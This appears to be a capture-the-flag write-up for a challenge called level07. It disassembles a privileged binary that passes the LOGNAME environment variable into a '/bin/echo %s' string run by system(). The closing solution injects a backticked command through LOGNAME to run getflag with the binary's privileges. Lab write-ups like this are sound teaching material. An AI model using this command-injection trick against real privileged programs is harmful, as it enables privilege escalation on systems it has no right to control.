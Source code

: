 We get a binary.
Let's run `objdump` and disassaemble the binary:
```
   0x08048514 <+0>: push   ebp
   0x08048515 <+1>: mov    ebp,esp
   0x08048517 <+3>: and    esp,0xfffffff0
   0x0804851a <+6>: sub    esp,0x20
   0x0804851d <+9>: call   0x80483f0 <getegid@plt>
   0x08048522 <+14>:  mov    DWORD PTR [esp+0x18],eax
   0x08048526 <+18>:  call   0x80483e0 <geteuid@plt>
   0x0804852b <+23>:  mov    DWORD PTR [esp+0x1c],eax
   0x0804852f <+27>:  mov    eax,DWORD PTR [esp+0x18]
   0x08048533 <+31>:  mov    DWORD PTR [esp+0x8],eax
   0x08048537 <+35>:  mov    eax,DWORD PTR [esp+0x18]
   0x0804853b <+39>:  mov    DWORD PTR [esp+0x4],eax
   0x0804853f <+43>:  mov    eax,DWORD PTR [esp+0x18]
   0x08048543 <+47>:  mov    DWORD PTR [esp],eax
   0x08048546 <+50>:  call   0x8048450 <setresgid@plt>
   0x0804854b <+55>:  mov    eax,DWORD PTR [esp+0x1c]
   0x0804854f <+59>:  mov    DWORD PTR [esp+0x8],eax
   0x08048553 <+63>:  mov    eax,DWORD PTR [esp+0x1c]
   0x08048557 <+67>:  mov    DWORD PTR [esp+0x4],eax
   0x0804855b <+71>:  mov    eax,DWORD PTR [esp+0x1c]
   0x0804855f <+75>:  mov    DWORD PTR [esp],eax
   0x08048562 <+78>:  call   0x80483d0 <setresuid@plt>
   0x08048567 <+83>:  mov    DWORD PTR [esp+0x14],0x0
   0x0804856f <+91>:  mov    DWORD PTR [esp],0x8048680
   0x08048576 <+98>:  call   0x8048400 <getenv@plt>
   0x0804857b <+103>: mov    DWORD PTR [esp+0x8],eax
   0x0804857f <+107>: mov    DWORD PTR [esp+0x4],0x8048688
   0x08048587 <+115>: lea    eax,[esp+0x14]
   0x0804858b <+119>: mov    DWORD PTR [esp],eax
   0x0804858e <+122>: call   0x8048440 <asprintf@plt>
   0x08048593 <+127>: mov    eax,DWORD PTR [esp+0x14]
   0x08048597 <+131>: mov    DWORD PTR [esp],eax
   0x0804859a <+134>: call   0x8048410 <system@plt>
   0x0804859f <+139>: leave  
   0x080485a0 <+140>: ret  
```

First interesting lines are these:
```
   0x0804856f <+91>:  mov    DWORD PTR [esp],0x8048680
   0x08048576 <+98>:  call   0x8048400 <getenv@plt>
```
It's `genenv` call with an argument `0x8048680`. By this address there is a string `LOGNAME`.
This means we can pass any string via this environment variable.

Later the variables's value is used to build another string:
```
   0x08048567 <+83>:  mov    DWORD PTR [esp+0x14],0x0
   ...
   0x0804857b <+103>: mov    DWORD PTR [esp+0x8],eax
   0x0804857f <+107>: mov    DWORD PTR [esp+0x4],0x8048688
   0x08048587 <+115>: lea    eax,[esp+0x14]
   0x0804858b <+119>: mov    DWORD PTR [esp],eax
   0x0804858e <+122>: call   0x8048440 <asprintf@plt>
```
This instructions call `asprintf` function with following arguments:
1. `esp+0x14` - a string pointer
2. `esp+0x4` - a string with value `/bin/echo %s`
3. result of `getenv("LOGNAME")`.

After that research, the solution is obvious:
(LOGNAME='`getflag`' && ./level07)

